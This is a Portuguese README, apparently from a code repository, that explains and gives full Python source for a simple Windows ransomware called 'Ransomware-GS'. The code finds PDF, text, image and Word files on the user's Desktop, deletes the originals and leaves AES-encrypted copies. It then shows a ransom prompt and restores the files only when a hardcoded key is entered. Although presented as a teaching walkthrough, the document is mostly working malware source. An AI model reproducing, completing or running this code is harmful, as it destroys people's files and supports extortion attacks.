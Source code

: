 # Ransomware-GS
 Descrição do funcionamento do ransomware
Esse ransomware foi feito para funcionar em windows.
 Primeiramente precisamos fazer os imports necessários 
 
import os  # sistema operacional
import glob  # busca os arquivos
import time
import pyaes  # biblioteca de criptografia aes
 
from pathlib import Path  # pathlib utilizada para setar os caminhos
Após fazer os imports podemos começar a programar o código propriamente dito.
 
Aqui nós estamos listando as extensões dos tipos de arquivos que queremos criptografar, e exibir a mensagem que estamos criptografando.

lst_arqui = ['*.pdf', '*.txt', '*.jpg', '*.doc', ]

print('Criptografando')

time.sleep(3)
 
Aqui estamos confirmando que os arquivos que tem que ser criptografados existem, nesse código eu escolhi criptografar os arquivos existentes no desktop.
try:

    desktop = Path.home() / "Desktop"
except Exception:
    pass
os.chdir(desktop)
 
Aqui é onde a criptografia ocorre, esse é o núcleo do nosso código, primeiro de tudo ele vai abrir os arquivos que foram identificados anteriormente, usando o ‘rb’ que significa read binary ou seja ele está lendo os bytes daquele arquivo, depois disso ele remove os arquivos do desktop e os criptografá, usando a chave de criptografia definida por meio do pyaes utilizando o AES para criptografar o arquivo, o AES é extremamente simples de ser utilizado por isso ele foi a escolha para esse código, e depois de criptografado os arquivos retornam para o desktop como .ransomencrypter
 
def criptografando():

    for files in lst_arqui:
        for format_file in glob.glob(files):
            print(format_file)
            f = open(f'{desktop}\\{format_file}', 'rb')  # rb = read binary e wb = write binary
            file_data = f.read()
            f.close()
 
            os.remove(f'{desktop}\\{format_file}')
            key = b"1ab2c3e4f5g6h7i8"  # 16 byts key - chave
            aes = pyaes.AESModeOfOperationCTR(key)  # gera a criptografia
            crypto_data = aes.encrypt(file_data)
            # Salvando arquivo novo (.ransomencrypter)
            new_file = format_file + ".ransomencrypter"
            new_file = open(f'{desktop}\\{new_file}', 'wb')
            new_file.write(crypto_data)
            new_file.close()
 
Este é o nosso descrypt ele é o responsável por fazer o processo inverso ao anterior e descriptografar o arquivo, primeiro ele checa se os arquivos são um .ransomencrypter e os le e então utilizando a chave ele descriptografa os arquivos e retorna eles para o estado anterior como se nada tivesse acontecido
 
 def descrypt(decrypt_file):
   try:
   
       for file in glob.glob('*.ransomencrypter'):
            keybytes = decrypt_file.encode()
            name_file = open(file, 'rb')
            file_data = name_file.read()
            dkey = keybytes
            daes = pyaes.AESModeOfOperationCTR(dkey)  # gera a decriptografia
            decrypt_data = daes.decrypt(file_data)
 
            format_file = file.split('.')
            new_file_name = format_file[0] + '.' + format_file[1]
 
            dnew_file = open(f'{desktop}\\{new_file_name}', 'wb')
            dnew_file.write(decrypt_data)
            dnew_file.close()
    except ValueError as err:
        print('Chave inválida')
 
Aqui é onde a mensagem de criptografia é exibida assim que os arquivos forem encriptados e pede pela chave de liberação 'Seu PC foi criptografado :p, informe a chave  para liberar os arquivos:', se a chave estiver correta ele descriptografa os arquivos e se ela não estiver correta ele exibe a mensagem 'Chave de liberação inválida.', e caso ela esteja correta o código se encerra. 
 
 
 
if __name__ == '__main__':

    criptografando()
    if criptografando:
        key = input('Seu PC foi criptografado :p, informe a chave  para liberar os arquivos:')
        if key == '1ab2c3e4f5g6h7i8':  # confirma se a chave de descriptografia foi colocada corretamente e entãos descriptografa
            descrypt(key)
            for del_file in glob.glob('*.ransomencrypter'):
                os.remove(f'{desktop}\\{del_file}')
        else:
            print('Chave de liberação inválida.')



